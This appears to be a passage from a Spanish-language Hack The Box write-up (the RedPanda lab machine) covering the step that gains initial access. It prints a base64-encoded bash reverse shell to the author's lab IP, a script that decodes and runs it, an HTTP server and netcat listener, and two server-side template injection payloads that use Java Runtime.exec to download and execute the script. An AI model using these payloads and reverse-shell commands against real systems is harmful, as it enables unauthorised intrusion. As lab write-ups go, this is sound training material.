...

* Convertimos a **base64** el contenido que queremos sea ejecutado por la máquina víctima, en este caso le diremos que envíe a un puerto de nuestro sistema (**4433**) una `/bin/bash`:

  ```bash
  echo "bash -i >& /dev/tcp/10.10.14.146/4433 0>&1" | base64
  ```

  Copiamos ese resultado.

* Creamos archivo (lo llamaré `rev.sh`) que subiremos a la máquina víctima para que sea ejecutado, en él lo que haremos será decirle algo tal que así:

  🗣️ "Vea, hágame un fa, tome esta cadena en base64, decodeela y ejecútela, nada más, muchas gracias"

  ```bash
  #/bin/bash
  
  echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNDYvNDQzMyAwPiYxCg== | base64 -d | bash
  ```

* Levantamos dos servicios, **HTTP** y el puerto **4433**, esto para que la máquina víctima busque y descargue el archivo `rev.sh` y donde recibiremos la reverse shell respectivamente.

  ```bash
  # HTTP sobre el puerto 8000
  python3 -m http.server
  # NC sobre el puerto 4433
  nc -lvp 4433
  ```

* Preparamos payloads:

  {% raw %}
  ```java
  *{T(java.lang.Runtime).getRuntime().exec('curl http://10.10.14.146:8000/rev.sh -o /tmp/hola.sh')}
  *{T(java.lang.Runtime).getRuntime().exec('bash /tmp/hola.sh')}
  ```
  {% endraw %}

  El primero descarga el archivo y lo guarda en la ruta `/tmp` con el nombre `hola.sh` y el segundo simplemente lo ejecuta (es necesario el `bash`, si no se explota).

<span style="display: block; margin-left: auto; margin-right: auto;">🔥 **Que Empiece El Fogeteo** 🔥</span>

Enviamos el primer payload y al ir todo bien recibimos la petición en nuestro servidor HTTP (: Lo que queda es ejecutar el archivo y revisar nuestro listener:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/redpanda/481bash_woodenkRevSH.png" style="width: 100%;"/>

TENEMOS UNA REVERSE SHELL EN EL SISTEMA COMO **woodenk**!

Antes de seguir hagámosla útil (si hacemos `CTRL^C` la perdemos), completamente funcional (poder movernos entre comandos y tener histórico) y de paso bonita:

* [https://lanzt.gitbook.io/cheatsheet-pentest/tty](https://lanzt.gitbook.io/cheatsheet-pentest/tty)
